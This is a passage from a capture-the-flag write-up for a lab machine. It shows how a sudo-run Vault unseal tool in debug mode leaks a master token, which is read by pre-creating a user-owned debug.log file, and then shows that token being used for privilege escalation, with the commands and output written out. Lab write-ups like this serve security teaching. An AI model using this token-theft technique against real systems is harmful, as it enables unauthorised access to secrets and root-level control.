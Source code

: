 This tells us that this command is leaking a vault master token, and we need to run it with debug mode:

```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v -d
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:~$ ls
debug.log  user.txt
askyy@skyfall:~$ cat debug.log 
cat: debug.log: Permission denied
askyy@skyfall:~$ ls -la debug.log 
-rw------- 1 root root 590 Feb  5 05:17 debug.log
```
We have permission denied here, because the file is owned by root and only root can read and write. However, what if the `debug.log` file already existed in the current directory, owned by `askyy` instead? To test this, I created a new directory and a `debug.log` file within it:

```bash
askyy@skyfall:~$ mkdir muka
askyy@skyfall:~$ cd muka
askyy@skyfall:~/muka$ touch debug.log
askyy@skyfall:~/muka$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -v -d
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:~/muka$ ls -la debug.log
-rw-rw-r-- 1 askyy askyy 590 Feb  5 05:19 debug.log
```

And now we can read the contents and find the master token inside this log! 

## [](#step3-crafting-the-attack)Step 4 - Privilege Escalation

Now that we have the master token, we go back to our local machine and use assign this token to our `VAULT_TOKEN` variable.

```bash
$ export VAULT_TOKEN=<token>
$ vault status
Key             Value
---             -----
Seal Type       shamir
Initialized     true
Sealed          false
Total Shares    1
Threshold       1
Version         1.15.1
Build Date      2023-10-20T19:16:11Z
Storage Type    file
Cluster Name    vault-cluster-746fa9de
Cluster ID      6fc384e6-b108-1b05-2825-1de249607986
HA Enabled      false
```
